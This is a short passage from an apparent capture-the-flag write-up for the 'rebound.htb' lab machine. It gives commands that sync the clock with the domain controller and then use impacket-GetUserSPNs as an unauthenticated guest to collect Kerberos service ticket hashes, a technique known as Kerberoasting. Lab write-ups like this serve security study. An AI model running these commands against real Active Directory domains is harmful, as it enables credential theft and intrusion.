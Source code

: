 ```bash
sudo ntpdate -u rebound.htb && sudo hwclock --systohc

```

![image9](../resources/bc972b56f4b642dfbcbc5cd4821b0f15.png)

OR use:

```bash
sudo faketime -f +7h <command>
sudo faketime -f +7h impacket-GetUserSPNs -target-domain rebound.htb -usersfilevalid_users -dc-ip rebound.htb rebound.htb/guest -no-pass

```
- Get Service hashes:

```bash
impacket-GetUserSPNs -target-domain rebound.htb -usersfilevalid_users -dc-ip rebound.htb rebound.htb/guest -no-pass

```

![image10](../resources/bf747789a28148bfbf61b63703c1e91f.png)
